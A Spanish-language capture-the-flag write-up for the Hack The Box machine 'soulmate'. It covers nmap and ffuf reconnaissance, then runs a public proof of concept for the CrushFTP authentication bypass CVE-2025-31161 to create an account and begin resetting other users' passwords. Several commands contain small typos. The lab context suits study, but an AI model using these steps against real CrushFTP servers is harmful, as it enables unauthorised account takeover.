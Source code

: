# Metodologías de ataque

Creamos nuestra carpeta con el nombre de la maquina `soulmate` y dentro crearemos las subcarpetas para cada fase `content, exploits, nmap, scripts`

Revisamos la conexion a la ip

```bash
ping -c 2 10.10.11.86
```
Respuesta:
<pre>
PING 10.10.11.86 (10.10.11.86) 56(84) bytes of data.
64 bytes from 10.10.11.86: icmp_seq=1 ttl=63 time=139 ms
64 bytes from 10.10.11.86: icmp_seq=2 ttl=63 time=141 ms

--- 10.10.11.86 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 139.407/139.959/140.511/0.552 ms
</pre>

Teniendo la respuesta ingresamos a la ip que nos entrega HTB, en mi caso es la 10.10.11.86

Nos indica que no pudo resolver soulmate.htb

![No se puede acceder a este sitio](../../assets/1.Ver pagina.png)

Ingresamos al archivo hosts e ingresamos la ip y el dominio que nos indica en la pagina

```bash
sudo nano /etc/hosts
```

<pre>
10.10.11.86 soulmate.hth
</pre>

Recargamos la pagina y deberiamos ya poder ver el inicio:

![Index](../../assets/2. Inicio pagina.png)


Realizamos un escaneo en nmap y en paralelo haremos escaneos de directorios y subdominios

## Escaneo previo
**Full TCP (nmap):**
```bash
nmap -vvv -sS -p- --min-rate 1000 -n -Pn 10.10.11.86 -oG nmap/allPorts
```

Respuesta:
<pre>
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-28 13:38 -03
Initiating SYN Stealth Scan at 13:38
Scanning 10.10.11.86 [65535 ports]
Discovered open port 22/tcp on 10.10.11.86
Discovered open port 80/tcp on 10.10.11.86
Increasing send delay for 10.10.11.86 from 0 to 5 due to 382 out of 1272 dropped probes since last increase.
Increasing send delay for 10.10.11.86 from 5 to 10 due to max_successful_tryno increase to 4
Completed SYN Stealth Scan at 13:38, 15.04s elapsed (65535 total ports)
Nmap scan report for 10.10.11.86
Host is up, received user-set (0.26s latency).
Scanned at 2025-09-28 13:38:09 -03 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
</pre>

Vemos que tenemos 2 puertos, usaremos esos para escanearlos

## Escaneo de servicios
**Servicios + scripts:**
```bash
nmap -v -sC -sV --min-rate 1000 -p 22,80 -n 10.10.11.86 -oG nmap/targeted
```

<pre>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soulmate.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

## Fuzzing de directorios web
```bash
ffuf -w /usr/share/wordlists/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://soulmate.htb/FUZZ -o content/dirs-soulmate.json -of json -t 25 -fw 6110
```

Respuesta:

<pre>
assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 140ms]

</pre>

## Fuzzing de subdominios / vhosts
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://soulmate.htb -H "Host: FUZZ.soulmate.htb" -o content/domains-soulmate.json -of json -t 25
```

Respuesta:

<pre>
ftp                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 228ms]
</pre>

## Fuzzing de archivos

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://soulmate.htb/assets/FUZZ -e .php,.html,.bak,.txt -recursion -recursion-depth 2 -mc 200,301,302 -fc 404 -t 25 -ocontent/extensions-soulmate.jsonn -of json 
```

Respuesta:

<pre>
css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 139ms]
[INFO] Adding a new job to the queue: http://soulmate.htb/assets/css/FUZZ

images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 140ms]
[INFO] Adding a new job to the queue: http://soulmate.htb/assets/images/FUZZ

[INFO] Starting queued job on target: http://soulmate.htb/assets/css/FUZZ

[INFO] Starting queued job on target: http://soulmate.htb/assets/images/FUZZ

profiles                [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 138ms]
[INFO] Adding a new job to the queue: http://soulmate.htb/assets/images/profiles/FUZZ

[INFO] Starting queued job on target: http://soulmate.htb/assets/images/profiles/FUZZ

:: Progress: [23615/23615] :: Job [4/4] :: 197 req/sec :: Duration: [0:01:36] :: Errors: 0 ::
</pre>

Ingresamos a cada uno de los directorios para verificar algun heartbleed pero no se obtiene nada favorable.

Intentamos acceder al ftp del sitio: ftp.soulmate.htb

![FTP server](../../assets/3. ftp-site.png)

Agregamos el ftp al archivo hosts.

```bash
sudo nano /etc/hosts
```

<pre>
10.10.11.86 soulmate.htb ftp.soulmate.htb
</pre>

recargamos la pagina y ya deberiamos tener acceso al ftp

![POC CrushFTP](../../assets/4. POC-CrushFTP.png)

En caso de no cargar probar con la combinacion de teclas Ctrl+F5 para recargar cache.

Dentro de la pagina hacemos una inspeccion de código y verificamos que la version del CrushFTP es la `v11.W.657`

Realizamos una busqueda en google y validamos la vulnerabilidad: "11.W.657 CRUSHFTP Vuln"

y encontramos el CVE de la vulnerabilidad: CVE-2025-31161

Fuente: https://s2grupo.es/vulnerabilidades-crushftp-2025/

Realizamos otra busqueda en google con la CVE: CVE-2025-31161 y vemos que en github hay una POC en python para usarse



Descargamos la POC y la ejecutamos:

```bash
cd exploits
git clone https://github.com/Immersive-Labs-Sec/CVE-2025-31161.git
python3 cve-2025-31161.py
```
Respuesta:

<pre>
[-] Target host not specified
usage: cve-2025-31161.py [-h] [--target_host TARGET_HOST] [--port PORT] [--target_user TARGET_USER] [--new_user NEW_USER] [--password PASSWORD]

Exploit CVE-2025-31161 to create a new account

options:
  -h, --help            show this help message and exit
  --target_host TARGET_HOST
                        Target host
  --port PORT           Target port
  --target_user TARGET_USER
                        Target user
  --new_user NEW_USER   New user to create
  --password PASSWORD   Password for the new user

</pre>

Nos pide ingresar los datos en este orden (probaremos con el usuario root que es el mas común):

```bash
python3 --target_host http://ftp.soulmate.htb --port 80 --target_user root --new_user prueba --password admin123
```

Respuesta:

<pre>
[+] Preparing Payloads
  [-] Warming up the target
  [-] Target is up and running
[+] Sending Account Create Request
  [!] User created successfully
<strong>[+] Exploit Complete you can now login with
   [*] Username: prueba
   [*] Password: admin123.</strong>
</pre>

Tenemos el usuario creado, ahora validamos el acceso:

#Insertar imagen

Empezamos a navegar en el portal y lo primero que vemos es la opcion de Admin, dentro de esta opcion navegamos por el menu hasta que llegamos a la parte de User Manager. Donde podemos ver los usuarios registrados hasta el momento.

Probaremos con el primer usuario a ver si le podemos cambiar la password y presionamos en Save:

#Insertar imagen


> **Recordatorio:** documentar comandos, salidas y autorización es obligatorio. Uso exclusivo en entornos autorizados.

